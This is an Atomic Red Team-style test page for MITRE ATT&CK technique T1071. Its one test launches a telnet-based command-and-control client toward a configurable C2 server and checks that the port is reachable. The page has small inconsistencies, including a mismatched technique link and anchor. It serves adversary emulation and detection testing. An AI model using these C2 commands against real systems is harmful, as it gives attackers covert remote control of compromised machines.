 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\bin\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:

##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)

```powershell
.\telnet_server.py server_ip --port port_number
```

##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```


<br/>
<br/>
